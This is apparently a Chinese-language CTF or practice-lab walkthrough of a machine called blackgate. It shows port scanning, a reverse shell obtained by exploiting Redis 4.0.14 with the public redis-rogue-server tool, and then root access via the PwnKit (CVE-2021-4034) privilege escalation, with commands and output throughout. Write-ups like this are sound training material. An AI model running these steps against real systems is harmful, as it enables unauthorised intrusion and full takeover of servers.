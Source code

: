 ## Recon
```bash
rustscan -a <target_ip> --ulimit 5000
```
```shell
[~] Automatically increasing ulimit value to 5000.
Open 192.168.234.176:22
Open 192.168.234.176:6379
[~] Starting Script(s)
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-28 06:30 EDT
Initiating Ping Scan at 06:30
Scanning 192.168.234.176 [4 ports]
Completed Ping Scan at 06:30, 0.11s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 06:30
Completed Parallel DNS resolution of 1 host. at 06:30, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 06:30
Scanning 192.168.234.176 [2 ports]
Discovered open port 6379/tcp on 192.168.234.176
Discovered open port 22/tcp on 192.168.234.176
Completed SYN Stealth Scan at 06:30, 0.10s elapsed (2 total ports)
Nmap scan report for 192.168.234.176
Host is up, received reset ttl 61 (0.075s latency).
Scanned at 2025-08-28 06:30:55 EDT for 0s

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 61
6379/tcp open  redis   syn-ack ttl 61

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.31 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (128B)

```
## 分析
可以看到這台靶機開了 22/ssh 跟 6379/redis 兩個 port。  
我的想法是我會先看看 6379 的服務。
```shell
└─$ nmap -sV -sC -T4 192.168.234.176 -p 6379 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-28 06:33 EDT
Nmap scan report for 192.168.234.176
Host is up (0.075s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.14

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.68 seconds
```
version 4.0.14 , 有點問題  
可以去 google 看看有沒有什麼 exploit  
結果發現了 [Redis Rogue Server](https://github.com/n0b0dyCN/redis-rogue-server)  
試用看看  
```shell
git clone https://github.com/n0b0dyCN/redis-rogue-server.git
```
```python
python redis-rogue-server.py --rhost <target_ip> --lhost <local_vpn_ip> --lport 8888
```
他就會問你要互動式的 shell 還是 rev shell  
這邊選 rev shell 然後記得要 nc local 就有 rev shell 了
用以下指令獲得穩定 shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## 提權
接下來是提權的部分  
可以先用 LinPEAS 掃看看
發現有 PwnKit 可以用
```shell
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```
就用 PwnKit 看看
```shell
prudence@blackgate:/tmp$ chmod +x PwnKit
chmod +x PwnKit
prudence@blackgate:/tmp$ ./PwnKit
./PwnKit
root@blackgate:/tmp# 
```
GET ROOT !